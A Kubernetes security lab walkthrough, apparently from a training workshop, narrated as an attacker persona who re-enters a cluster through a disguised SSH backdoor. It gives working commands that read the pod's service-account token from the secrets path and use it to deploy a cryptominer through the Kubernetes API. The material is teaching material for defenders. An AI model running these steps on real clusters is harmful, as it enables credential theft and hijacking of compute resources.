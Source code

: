 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:
  * There is a service account associated with the container which has been granted access to all kubernetes APIs
  * The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

We also want to make sure we are creating the new miners in the same namespace:
```console
export NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Lastly, we will need curl for this and our SSH image didn't come with it preinstalled:
```console
apk update && apk add curl
```

Now the fun part, let's create our miner:
```console
curl -k -X POST "$API_SERVER/apis/apps/v1/namespaces/$NAMESPACE/deployments" -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-binary '{"apiVersion":"apps/v1","kind":"Deployment","metadata":{"labels":{"run":"bitcoinero"},"name":"bitcoinero","namespace":"'$NAMESPACE'"},"spec":{"replicas":1,"revisionHistoryLimit":2,"selector":{"matchLabels":{"run":"bitcoinero"}},"strategy":{"rollingUpdate":{"maxSurge":"25%","maxUnavailable":"25%"},"type":"RollingUpdate"},"template":{"metadata":{"labels":{"run":"bitcoinero"}},"spec":{"containers":[{"image":"securekubernetes/bitcoinero:latest","name":"bitcoinero","command":["./moneymoneymoney"],"args":["-c","1","-l","10"],"resources":{"requests":{"cpu":"100m","memory":"128Mi"},"limits":{"cpu":"200m","memory":"128Mi"}}}]}}}}'
```

Verify that the pod is running:
```console
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods/bitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
```

Time for some celebratory pizza!